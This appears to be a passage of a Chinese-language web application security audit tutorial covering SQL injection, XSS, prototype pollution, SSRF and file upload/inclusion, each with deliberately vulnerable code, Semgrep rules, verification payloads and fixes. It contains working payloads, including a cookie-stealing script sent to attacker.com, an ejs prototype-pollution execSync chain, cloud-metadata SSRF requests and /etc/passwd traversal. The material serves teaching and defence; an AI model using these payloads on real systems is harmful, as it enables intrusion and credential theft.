





## 二、Web应用漏洞审计实战

Web应用是当前攻击面最广、漏洞最密集的软件类型。根据 OWASP Top 10（2021版）统计，注入类漏洞（Injection）仍然位列十大安全风险之一，而越权访问（Broken Access Control）已跃升为第一位。本节以五个真实场景为主线，从审计方法、检测规则、攻击验证到安全修复，完整演示Web应用漏洞审计的全过程。

### 2.0 Web应用审计方法论概述

在深入具体漏洞类型之前，有必要建立一套系统化的审计框架。Web应用审计不是"找到一个漏洞就跑"，而是要建立可重复、可度量的审计流程。



审计模式的选择取决于项目阶段和可获取的信息：

| 审计模式 | 适用场景 | 优势 | 局限 |
|---------|---------|------|------|
| **白盒审计（White-box）** | 源码可获取的项目 | 覆盖率高，可追踪完整数据流 | 耗时长，需要代码访问权限 |
| **灰盒审计（Gray-box）** | 拥有部分账户凭据 | 兼顾效率与覆盖面 | 权限级别影响检测范围 |
| **黑盒审计（Black-box）** | 无源码，仅通过接口测试 | 模拟真实攻击者视角 | 遗漏隐蔽漏洞，依赖工具能力 |

实际项目中，三种模式往往组合使用。推荐的审计工具链：

- **静态分析（SAST）**：Semgrep、CodeQL、SonarQube、Bandit（Python）
- **动态分析（DAST）**：OWASP ZAP、Burp Suite、Nuclei
- **模糊测试**：ffuf、wfuzz、AFL++
- **辅助工具**：Postman（接口调试）、sqlmap（注入验证）、httpx（资产探测）

---

### 2.1 PHP应用SQL注入审计

#### 2.1.1 漏洞原理

SQL注入的本质是**数据与指令的边界被打破**。当用户输入未经验证和转义就被拼接到SQL语句中时，攻击者可以构造恶意输入改变SQL语义，导致数据泄露、数据篡改甚至远程代码执行。



SQL注入的五个子类型在代码审计中各有不同的表现：

| 注入类型 | 触发条件 | 危害等级 | 审计关注点 |
|---------|---------|---------|-----------|
| Union注入 | 字符串拼接+可联合查询 | 高 | `$_GET/$_POST`直接入SQL |
| 布尔盲注 | 无回显但有差异响应 | 中 | `if`条件中嵌入用户输入 |
| 时间盲注 | 无回显无差异 | 中 | `SLEEP()`/`BENCHMARK()`构造 |
| 报错注入 | 数据库错误信息回显 | 高 | `extractvalue()`、`updatexml()` |
| 堆叠注入 | 支持多语句执行 | 极高 | `mysqli_multi_query()` |

#### 2.1.2 审计目标：某开源CMS

以下代码来自一个典型的PHP内容管理系统，展示了三种常见的SQL注入模式。

**漏洞代码示例一：搜索功能直接拼接**

```php
// 漏洞代码：/includes/db.php
class Database {
    private $conn;
    
    public function __construct() {
        $this->conn = new mysqli(DB_HOST, DB_USER, DB_PASS, DB_NAME);
    }
    
    public function query($sql) {
        // 直接执行SQL，无参数化——这是所有注入的根源
        return mysqli_query($this->conn, $sql);
    }
}

// 文件：/admin/users.php
function search_users($keyword) {
    $db = new Database();
    // 漏洞：用户搜索关键词直接拼接到SQL
    // 攻击者可输入: ' UNION SELECT username,password FROM admin-- 
    $sql = "SELECT * FROM users WHERE username LIKE '%$keyword%' 
            OR email LIKE '%$keyword%'";
    return $db->query($sql);
}
```

**漏洞代码示例二：ID参数未做类型检查**

```php
// 文件：/includes/functions.php
function get_user_by_id($id) {
    $db = new Database();
    // 漏洞：$id未经过intval()或类型检查
    // 攻击者可输入: 1 OR 1=1 -- 
    // 或: 1 UNION SELECT username,password FROM users--
    $sql = "SELECT * FROM users WHERE id = $id";
    return $db->query($sql);
}
```

**漏洞代码示例三：ORDER BY动态列名**

```php
// 文件：/api/products.php
function list_products($sort_by) {
    $db = new Database();
    // 常被忽视的注入点：ORDER BY后的列名不能用占位符
    // 攻击者可输入: name, (SELECT CASE WHEN (1=1) THEN SLEEP(5) ELSE 0 END)
    $sql = "SELECT * FROM products ORDER BY $sort_by";
    return $db->query($sql);
}
```

#### 2.1.3 Semgrep检测规则

以下规则覆盖了从简单模式匹配到复杂污点追踪的完整检测层次。

```yaml
rules:
  # 规则1：简单模式匹配——字符串拼接+查询执行
  - id: php-sqli-mysqli-query
    patterns:
      - pattern: |
          $sql = "... $VAR ...";
          $DB->query($sql);
    message: >
      检测到SQL注入风险：用户输入可能直接拼接到SQL查询中。
      请使用预处理语句（PreparedStatement）替代字符串拼接。
    languages: [php]
    severity: ERROR
    metadata:
      cwe: ["CWE-89"]
      owasp: ["A03:2021 Injection"]
      confidence: HIGH

  # 规则2：污点追踪——从用户输入到SQL执行的完整数据流
  - id: php-sqli-user-input
    mode: taint
    pattern-sources:
      - pattern: $_GET[...]
      - pattern: $_POST[...]
      - pattern: $_REQUEST[...]
      - pattern: $_COOKIE[...]
      - pattern: |
          function $FUNC(..., $PARAM, ...) { ... }
    pattern-sinks:
      - pattern: mysqli_query(..., $SQL)
      - pattern: $DB->query($SQL)
      - pattern: mysql_query($SQL)
      - pattern: |
          "... $SQL ..."
    pattern-sanitizers:
      - pattern: mysqli_real_escape_string(...)
      - pattern: intval(...)
      - pattern: floatval(...)
      - pattern: ctype_digit(...)
    message: 用户输入流向SQL查询，可能导致SQL注入
    languages: [php]
    severity: ERROR
    metadata:
      cwe: ["CWE-89"]

  # 规则3：检测不安全的查询构造方式
  - id: php-sqli-string-concat
    patterns:
      - pattern: |
          "..." . $VAR . "..."
      - metavariable-regex:
          metavariable: $VAR
          regex: .*\$_(GET|POST|REQUEST|COOKIE).*
    message: 检测到用户输入通过字符串连接参与SQL构造
    languages: [php]
    severity: WARNING
    metadata:
      cwe: ["CWE-89"]
```

#### 2.1.4 漏洞验证

使用 sqlmap 进行自动化验证：

```bash
# 基本注入检测
sqlmap -u "http://target/admin/users.php?keyword=test" --batch --dbs

# POST参数注入
sqlmap -u "http://target/admin/users.php" --data="keyword=test" --batch

# Cookie注入（当输入来源为Cookie时）
sqlmap -u "http://target/page.php" --cookie="search=*" --batch

# 从Burp请求文件导入
sqlmap -r request.txt --batch --level=3 --risk=2
```

手动验证方式——构造时间盲注：

```sql
-- 在搜索框输入以下Payload，观察响应时间
' AND IF(SUBSTRING((SELECT DATABASE()),1,1)='m',SLEEP(3),0)--
-- 如果响应延迟3秒，说明第一个字符是 'm'
```

#### 2.1.5 安全修复

```php
// 修复：使用预处理语句封装数据库操作
class Database {
    private $conn;
    
    public function __construct() {
        $this->conn = new mysqli(DB_HOST, DB_USER, DB_PASS, DB_NAME);
        $this->conn->set_charset('utf8mb4');
    }
    
    /**
     * 安全的查询方法：自动使用预处理语句
     * @param string $sql  SQL模板（使用?作为占位符）
     * @param array  $params 参数值数组
     * @param string $types 参数类型字符串（i=integer, s=string, d=double, b=blob）
     * @return mysqli_result|bool
     */
    public function query($sql, $params = [], $types = '') {
        if (empty($params)) {
            return mysqli_query($this->conn, $sql);
        }
        
        $stmt = $this->conn->prepare($sql);
        if (!$stmt) {
            throw new Exception("SQL预处理失败: " . $this->conn->error);
        }
        
        if ($types && $params) {
            $stmt->bind_param($types, ...$params);
        }
        $stmt->execute();
        $result = $stmt->get_result();
        $stmt->close();
        return $result;
    }
}

// 修复后的搜索功能
function search_users($keyword) {
    $db = new Database();
    $keyword = "%" . $keyword . "%";
    return $db->query(
        "SELECT * FROM users WHERE username LIKE ? OR email LIKE ?",
        [$keyword, $keyword],
        "ss"
    );
}

// 修复后的ID查询
function get_user_by_id($id) {
    $db = new Database();
    $id = intval($id);  // 强制类型转换作为防御深度
    return $db->query(
        "SELECT * FROM users WHERE id = ?",
        [$id],
        "i"
    );
}

// 修复后的ORDER BY（白名单验证）
function list_products($sort_by) {
    $db = new Database();
    $allowed_columns = ['name', 'price', 'created_at', 'rating'];
    $direction = in_array($sort_by, $allowed_columns) ? $sort_by : 'name';
    return $db->query("SELECT * FROM products ORDER BY {$direction}");
}
```

**修复要点总结：**

1. **预处理语句是根本解法**——所有用户输入必须通过参数绑定传入，绝不能拼接
2. **ORDER BY特殊处理**——参数化占位符无法用于列名/表名，必须用白名单验证
3. **类型强制转换是辅助手段**——`intval()`可以增加攻击难度，但不能替代预处理语句
4. **错误信息不要回显给用户**——生产环境应关闭`display_errors`，使用日志记录

---

### 2.2 跨站脚本攻击（XSS）审计

#### 2.2.1 漏洞原理

XSS（Cross-Site Scripting）的本质是**恶意脚本被注入到受信任的页面中执行**。浏览器无法区分合法脚本和注入的恶意脚本，因此攻击者可以窃取Cookie、会话令牌、执行任意操作。

XSS有三种子类型，审计时需要分别关注：

| 类型 | 持久性 | 典型场景 | 危害 |
|------|-------|---------|------|
| **存储型XSS** | 永久存储在数据库 | 论坛帖子、评论、用户资料 | 大规模感染访问者 |
| **反射型XSS** | URL参数中，不存储 | 搜索结果、错误消息 | 需要诱导点击链接 |
| **DOM型XSS** | 不经过服务器 | `document.write()`、`innerHTML` | 纯前端漏洞，难以检测 |

#### 2.2.2 审计目标：PHP论坛应用

```php
// 文件：/templates/post_view.php —— 存储型XSS

// 漏洞代码：评论内容未转义直接输出
<div class="comment-body">
    <?php echo $comment['content']; ?>
</div>

// 漏洞代码：用户昵称未转义
<span class="username"><?php echo $user['nickname']; ?></span>

// 漏洞代码：搜索关键词回显
<h3>搜索结果: <?php echo $_GET['q']; ?></h3>

// 漏洞代码：使用innerHTML赋值（DOM型XSS）
<script>
// 文件：/assets/js/search.js
const params = new URLSearchParams(window.location.search);
document.getElementById('results').innerHTML = 
    '<p>搜索: ' + params.get('q') + '</p>';
</script>
```

#### 2.2.3 Semgrep检测规则

```yaml
rules:
  # 规则1：检测未转义的用户输入输出到HTML
  - id: php-xss-unescaped-output
    patterns:
      - pattern-either:
          - pattern: echo $VARIABLE;
          - pattern: echo $VARIABLE . $MORE;
          - pattern: echo "... $VARIABLE ...";
      - metavariable-regex:
          metavariable: $VARIABLE
          regex: .*\$.*['"]\]|.*\$_(GET|POST|REQUEST|COOKIE|SERVER).*
    message: >
      用户输入未经转义直接输出到HTML页面，可能导致XSS。
      请使用htmlspecialchars()或HTMLPurifier进行转义。
    languages: [php]
    severity: ERROR
    metadata:
      cwe: ["CWE-79"]
      owasp: ["A03:2021 Injection"]

  # 规则2：检测innerHTML赋值中的用户输入
  - id: js-xss-innerhtml
    mode: taint
    pattern-sources:
      - pattern: location.search
      - pattern: location.hash
      - pattern: document.referrer
    pattern-sinks:
      - pattern: $EL.innerHTML = ...
      - pattern: $EL.outerHTML = ...
      - pattern: document.write(...)
      - pattern: $EL.insertAdjacentHTML(...)
    message: 用户可控数据流向DOM操作，可能导致DOM型XSS
    languages: [javascript]
    severity: ERROR
    metadata:
      cwe: ["CWE-79"]

  # 规则3：检测jQuery中的危险操作
  - id: js-xss-jquery-html
    mode: taint
    pattern-sources:
      - pattern: location.search
      - pattern: $PARAM
    pattern-sinks:
      - pattern: $(...).html(...)
      - pattern: $(...).append(...)
    message: 用户数据通过jQuery.html()输出，可能导致XSS
    languages: [javascript, typescript]
    severity: WARNING
```

#### 2.2.4 漏洞验证

**反射型XSS验证：**

```bash
# 构造恶意URL，观察是否弹窗
http://target/search.php?q=<script>alert('XSS')</script>
http://target/search.php?q=
http://target/search.php?q="><script>alert('XSS')</script>
```

**存储型XSS验证：**

```html
<!-- 在评论框中提交以下Payload -->
<script>document.location='http://attacker.com/steal?c='+document.cookie</script>

<svg onload="alert(document.cookie)">
```

**DOM型XSS验证（仅前端）：**

```bash
# 检查页面是否将URL参数直接渲染到DOM
http://target/page.html#
```

#### 2.2.5 安全修复

```php
// 修复方案一：输出转义（适用于所有HTML输出）
function safe_output($data) {
    return htmlspecialchars($data, ENT_QUOTES, 'UTF-8');
}

// 使用示例
<div class="comment-body">
    <?php echo safe_output($comment['content']); ?>
</div>
<span class="username">
    <?php echo safe_output($user['nickname']); ?>
</span>

// 修复方案二：HTMLPurifier（适用于富文本输入）
require_once 'vendor/htmlpurifier/HTMLPurifier.auto.php';
$config = HTMLPurifier_Config::createDefault();
$config->set('HTML.Allowed', 'p,b,i,u,a[href],img[src|alt]');
$purifier = new HTMLPurifier($config);
$clean_html = $purifier->purify($user_content);
```

```javascript
// 修复前端：使用textContent替代innerHTML
const params = new URLSearchParams(window.location.search);
document.getElementById('results').textContent = '搜索: ' + params.get('q');

// 修复前端：使用DOMPurifier净化富文本
import DOMPurify from 'dompurify';
document.getElementById('results').innerHTML = 
    DOMPurify.sanitize(userInput, {
        ALLOWED_TAGS: ['p', 'b', 'i', 'a'],
        ALLOWED_ATTR: ['href']
    });
```

**防御层次：**

1. **输入验证**：限制输入长度、格式、字符集（白名单优于黑名单）
2. **输出转义**：HTML上下文用`htmlspecialchars()`，JavaScript上下文用`json_encode()`
3. **Content Security Policy**：设置CSP头部限制脚本来源
4. **HttpOnly Cookie**：防止JavaScript读取敏感Cookie

---

### 2.3 Node.js应用原型污染审计

#### 2.3.1 漏洞原理

原型污染（Prototype Pollution）是JavaScript语言特性的安全风险。JavaScript中所有对象都继承自`Object.prototype`，当攻击者能够向原型对象注入属性时，会影响所有使用该原型的对象实例。



原型污染的危害链可以非常深远：

| 污染点 | 直接影响 | 潜在危害 |
|-------|---------|---------|
| `__proto__.isAdmin` | 所有对象获得isAdmin属性 | 权限绕过 |
| `__proto__.shell` | 与shell库配合 | RCE |
| `__proto__.outputFunctionName` | Pug模板引擎 | RCE |
| `__proto__.NODE_OPTIONS` | 子进程环境变量 | RCE |

#### 2.3.2 审计目标：Express应用

```javascript
// 文件：/utils/deepMerge.js —— 通用对象合并工具

function deepMerge(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) {
                target[key] = {};
            }
            // 漏洞：未过滤 __proto__、constructor 等危险属性
            deepMerge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target;
}

// 文件：/routes/settings.js
app.post('/api/settings', (req, res) => {
    const userSettings = req.body;
    // 漏洞：用户输入直接传入deepMerge
    const merged = deepMerge(defaultSettings, userSettings);
    res.json(merged);
});
```

**攻击Payload：**

```json
{
  "__proto__": {
    "isAdmin": true,
    "role": "admin"
  }
}
```

攻击发送后，服务器上所有新建对象都将继承`isAdmin: true`，导致任何基于对象属性的权限检查被绕过。

**进阶攻击——RCE链（与ejs模板引擎配合）：**

```json
{
  "__proto__": {
    "outputFunctionName": "_tmp1;process.mainModule.require('child_process').execSync('id');var _tmp2"
  }
}
```

#### 2.3.3 Semgrep检测规则

```yaml
rules:
  # 规则1：检测for-in循环中的属性赋值
  - id: js-prototype-pollution-merge
    patterns:
      - pattern: |
          for (let $KEY in $SOURCE) {
            ...
            $TARGET[$KEY] = ...;
            ...
          }
      - pattern-not: |
          for (let $KEY in $SOURCE) {
            if ($KEY === "__proto__" || $KEY === "constructor") {
              ...
            }
            ...
          }
    message: >
      可能的原型污染：对象合并操作未排除__proto__和constructor属性。
      请添加属性名白名单或黑名单检查。
    languages: [javascript, typescript]
    severity: ERROR
    metadata:
      cwe: ["CWE-1321"]
      owasp: ["A08:2021 Software and Data Integrity Failures"]

  # 规则2：污点追踪——用户输入到对象合并
  - id: js-prototype-pollution-taint
    mode: taint
    pattern-sources:
      - pattern: req.body
      - pattern: req.query
      - pattern: req.params
      - pattern: JSON.parse(...)
    pattern-sinks:
      - pattern: deepMerge(...)
      - pattern: merge(...)
      - pattern: Object.assign(..., $SOURCE)
      - pattern: $TARGET[$KEY] = $SOURCE[$KEY]
    message: 用户输入流向对象合并操作，可能导致原型污染
    languages: [javascript, typescript]
    severity: ERROR
    metadata:
      cwe: ["CWE-1321"]

  # 规则3：检测直接赋值到__proto__
  - id: js-proto-assign
    pattern: |
      $OBJ.__proto__[$KEY] = $VALUE;
    message: 直接操作__proto__属性，高风险原型污染
    languages: [javascript, typescript]
    severity: ERROR
```

#### 2.3.4 漏洞验证

```bash
# 验证原型污染（权限绕过）
curl -X POST http://target/api/settings \
  -H "Content-Type: application/json" \
  -d '{"__proto__": {"isAdmin": true}}'

# 验证：创建新对象检查原型
curl http://target/api/debug/objects
# 如果返回的任意对象包含 isAdmin:true，说明污染成功

# 使用专门的原型污染检测工具
npx prototype-pollution-check http://target/api/settings
```

#### 2.3.5 安全修复

```javascript
// 修复方案一：过滤危险属性（推荐）
function safeDeepMerge(target, source) {
    const FORBIDDEN_KEYS = new Set([
        '__proto__', 'constructor', 'prototype',
        '__defineGetter__', '__defineSetter__',
        '__lookupGetter__', '__lookupSetter__'
    ]);
    
    function merge(target, source) {
        for (let key in source) {
            // 检查危险属性
            if (FORBIDDEN_KEYS.has(key)) {
                continue;
            }
            
            // 仅处理自有属性（防止原型链攻击）
            if (!Object.prototype.hasOwnProperty.call(source, key)) {
                continue;
            }
            
            if (typeof source[key] === 'object' && source[key] !== null) {
                if (!target[key] || typeof target[key] !== 'object') {
                    target[key] = {};
                }
                merge(target[key], source[key]);
            } else {
                target[key] = source[key];
            }
        }
        return target;
    }
    
    return merge(target, source);
}

// 修复方案二：使用Object.create(null)创建纯净对象
function safeMerge(target, source) {
    // 纯净对象没有原型链，从根本上杜绝污染
    const result = Object.create(null);
    
    function merge(dst, src) {
        for (let key of Object.keys(src)) {
            if (typeof src[key] === 'object' && src[key] !== null) {
                dst[key] = Object.create(null);
                merge(dst[key], src[key]);
            } else {
                dst[key] = src[key];
            }
        }
    }
    
    merge(result, target);
    merge(result, source);
    return result;
}

// 修复方案三：使用成熟库替代自写合并
import { merge as deepMerge } from 'lodash-es';
// lodash的merge已内置原型污染防护
```

**修复建议优先级：**

1. **短期**：添加FORBIDDEN_KEYS黑名单过滤
2. **中期**：替换为成熟库（lodash.merge / deepmerge）
3. **长期**：使用Object.create(null)设计纯净数据结构
4. **额外**：在应用入口处冻结Object.prototype（可能影响兼容性，需评估）

---

### 2.4 服务端请求伪造（SSRF）审计

#### 2.4.1 漏洞原理

SSRF（Server-Side Request Forgery）允许攻击者让服务器发起任意HTTP请求，从而：

- **访问内网资源**：扫描内网主机、读取内部API数据
- **读取云元数据**：获取AWS/GCP/Azure的实例凭据（`http://169.254.169.254`）
- **绕过访问控制**：通过服务器作为代理访问受限资源
- **攻击内网服务**：利用服务器跳板攻击内网Redis/MongoDB等



#### 2.4.2 审计目标：图片代理服务

```python
# 文件：app.py —— Flask图片代理服务

from flask import Flask, request, send_file
import requests
import io

app = Flask(__name__)

@app.route('/proxy')
def image_proxy():
    """用户可以通过此接口代理加载外部图片"""
    url = request.args.get('url')
    # 漏洞：未验证URL是否指向外部地址
    # 攻击者可输入: http://169.254.169.254/latest/meta-data/iam/security-credentials/
    resp = requests.get(url, timeout=5)
    return send_file(io.BytesIO(resp.content), mimetype=resp.headers.get('Content-Type'))

@app.route('/fetch')
def fetch_content():
    """获取网页内容用于预览"""
    url = request.args.get('url')
    # 漏洞：可被用于探测内网端口
    # 攻击者可输入: http://192.168.1.1:8080/admin
    resp = requests.get(url, timeout=3)
    return resp.text
```

#### 2.4.3 Semgrep检测规则

```yaml
rules:
  # 规则1：检测requests.get使用用户输入
  - id: python-ssrf-requests
    mode: taint
    pattern-sources:
      - pattern: request.args.get(...)
      - pattern: request.form.get(...)
      - pattern: request.json
      - pattern: json.loads(...)
    pattern-sinks:
      - pattern: requests.get(...)
      - pattern: requests.post(...)
      - pattern: requests.head(...)
      - pattern: urllib.request.urlopen(...)
      - pattern: httpx.get(...)
    message: 用户输入控制HTTP请求目标，可能导致SSRF
    languages: [python]
    severity: ERROR
    metadata:
      cwe: ["CWE-918"]

  # 规则2：检测Node.js中的SSRF
  - id: js-ssrf-fetch
    mode: taint
    pattern-sources:
      - pattern: req.query
      - pattern: req.body
    pattern-sinks:
      - pattern: fetch(...)
      - pattern: axios.get(...)
      - pattern: http.get(...)
    message: 用户输入控制HTTP请求目标，可能导致SSRF
    languages: [javascript]
    severity: ERROR
```

#### 2.4.4 漏洞验证

```bash
# 读取云元数据（AWS）
curl "http://target/proxy?url=http://169.254.169.254/latest/meta-data/"

# 读取云元数据（GCP，需要Header）
curl "http://target/proxy?url=http://metadata.google.internal/computeMetadata/v1/"

# 探测内网端口
curl "http://target/fetch?url=http://192.168.1.1:22"
curl "http://target/fetch?url=http://192.168.1.1:6379"

# 绕过简单的域名黑名单（使用进制转换）
curl "http://target/proxy?url=http://0x7f000001/admin"  # 127.0.0.1
curl "http://target/proxy?url=http://2130706433/admin"  # 127.0.0.1
```

#### 2.4.5 安全修复

```python
# 修复：多层防御策略
from urllib.parse import urlparse
import ipaddress
import socket

BLOCKED_IPS = [
    ipaddress.ip_network('10.0.0.0/8'),
    ipaddress.ip_network('172.16.0.0/12'),
    ipaddress.ip_network('192.168.0.0/16'),
    ipaddress.ip_network('127.0.0.0/8'),
    ipaddress.ip_network('169.254.0.0/16'),  # 云元数据
]

ALLOWED_SCHEMES = ['http', 'https']
ALLOWED_DOMAINS = ['example.com', 'cdn.example.com']

def validate_url(url):
    """多层URL验证"""
    parsed = urlparse(url)
    
    # 1. 协议检查
    if parsed.scheme not in ALLOWED_SCHEMES:
        raise ValueError(f"不允许的协议: {parsed.scheme}")
    
    # 2. 域名白名单
    if parsed.hostname not in ALLOWED_DOMAINS:
        raise ValueError(f"不允许的域名: {parsed.hostname}")
    
    # 3. DNS解析后检查IP（防止DNS重绑定攻击）
    try:
        resolved = socket.getaddrinfo(parsed.hostname, None)
        for _, _, _, _, addr in resolved:
            ip = ipaddress.ip_address(addr[0])
            for blocked in BLOCKED_IPS:
                if ip in blocked:
                    raise ValueError(f"目标IP在内网: {ip}")
    except socket.gaierror:
        raise ValueError("DNS解析失败")
    
    # 4. 禁止重定向到内网
    return url

@app.route('/proxy')
def image_proxy():
    url = request.args.get('url')
    validated_url = validate_url(url)
    resp = requests.get(validated_url, timeout=5, allow_redirects=False)
    return send_file(io.BytesIO(resp.content), mimetype=resp.headers.get('Content-Type'))
```

**SSRF防御要点：**

1. **URL白名单**：只允许已知安全的域名和协议
2. **IP地址验证**：DNS解析后验证目标IP是否在内网范围
3. **禁用重定向**：`allow_redirects=False`防止通过重定向绕过
4. **云环境元数据保护**：使用IMDSv2（要求PUT请求获取token）
5. **网络层隔离**：将Web服务器部署在独立子网，限制出站流量

---

### 2.5 文件上传与包含审计

#### 2.5.1 漏洞原理

文件上传漏洞允许攻击者将恶意文件上传到服务器，可能导致：

- **WebShell**：上传PHP/JSP/ASP文件获得服务器控制权
- **任意文件写入**：覆盖配置文件或系统文件
- **远程代码执行**：利用图片马（ImageMagick漏洞）或解析漏洞

文件包含漏洞则允许攻击者包含并执行远程或本地的恶意文件。

#### 2.5.2 审计目标：PHP文件管理器

```php
// 文件：/upload.php —— 文件上传处理

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $filename = $_FILES['file']['name'];
    // 漏洞1：未验证文件扩展名
    // 攻击者可上传 shell.php、shell.phtml、shell.php5
    $dest = "uploads/" . $filename;
    move_uploaded_file($_FILES['file']['tmp_name'], $dest);
    echo "文件已上传: $dest";
}

// 文件：/download.php —— 文件下载
$file = $_GET['file'];
// 漏洞2：路径穿越（目录遍历）
// 攻击者可输入: ../../etc/passwd
readfile("downloads/" . $file);

// 文件：/template.php —— 模板包含
$page = $_GET['page'] ?? 'home';
// 漏洞3：本地文件包含（LFI）
// 改为 http://target/template.php?page=../../../../etc/passwd
include("templates/" . $page . ".php");
```

#### 2.5.3 安全修复

```php
// 修复：文件上传验证
function safe_upload($file, $allowed_types = ['jpg', 'png', 'gif', 'pdf']) {
    // 1. 扩展名白名单验证（检查真实扩展名，不是MIME类型）
    $ext = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));
    if (!in_array($ext, $allowed_types)) {
        throw new Exception("不允许的文件类型: $ext");
    }
    
    // 2. MIME类型验证（使用finfo，不是$_FILES['type']）
    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $mime = finfo_file($finfo, $file['tmp_name']);
    $allowed_mimes = [
        'jpg' => 'image/jpeg',
        'png' => 'image/png',
        'gif' => 'image/gif',
        'pdf' => 'application/pdf',
    ];
    if (!isset($allowed_mimes[$ext]) || $mime !== $allowed_mimes[$ext]) {
        throw new Exception("MIME类型不匹配");
    }
    
    // 3. 文件头验证（防止伪造扩展名）
    $handle = fopen($file['tmp_name'], 'rb');
    $header = fread($handle, 8);
    fclose($handle);
    
    // 4. 随机化文件名（防止路径猜测）
    $safe_name = bin2hex(random_bytes(16)) . '.' . $ext;
    $dest = "uploads/" . $safe_name;
    
    // 5. 确保上传目录不能执行PHP
    file_put_contents("uploads/.htaccess", "RemoveHandler .php .phtml\nRemoveType .php .phtml");
    
    move_uploaded_file($file['tmp_name'], $dest);
    return $dest;
}

// 修复：防止路径穿越
function safe_download($filename) {
    // basename()提取文件名，剥离所有路径信息
    $safe = basename($filename);
    $path = "downloads/" . $safe;
    
    // 额外检查：解析后的路径必须在downloads目录内
    $real_path = realpath($path);
    $base_path = realpath("downloads");
    if ($real_path === false || strpos($real_path, $base_path) !== 0) {
        throw new Exception("非法路径访问");
    }
    
    readfile($real_path);
}

// 修复：防止文件包含
function safe_include($page) {
    // 白名单验证
    $allowed = ['home', 'about', 'contact', 'faq'];
    if (!in_array($page, $allowed)) {
